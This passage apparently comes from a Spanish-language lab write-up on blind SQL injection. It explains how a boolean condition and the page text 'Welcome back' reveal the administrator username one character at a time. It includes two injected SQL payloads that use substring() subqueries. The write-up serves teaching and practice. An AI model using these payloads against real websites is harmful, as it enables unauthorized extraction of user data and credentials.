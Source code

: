 A diferencia de la query anterior, ahora la subconsulta devuelve el primer carácter del username del usuario (`administrator`). Esto significa que se está buscando un carácter específico en el nombre de usuario.

Por tanto, como el primer (`1`) digito de (`administrator`) es `=` (`a`), la condicion es verdadera y la web responde con (`Welcome back`).

```sql
' and (select substring(username,1,1) from users where username='administrator')='a
```

![](/assets/img/ps-writeup-sqli/ps-lab11_15.png)

Para ejemplificar, si defino que el segundo (`2`) digito de (`administrator`) es `=` (`a`), la condicion es falsa y la web no responde con (`Welcome back`).

```sql
' and (select substring(username,2,1) from users where username='administrator')='a
```
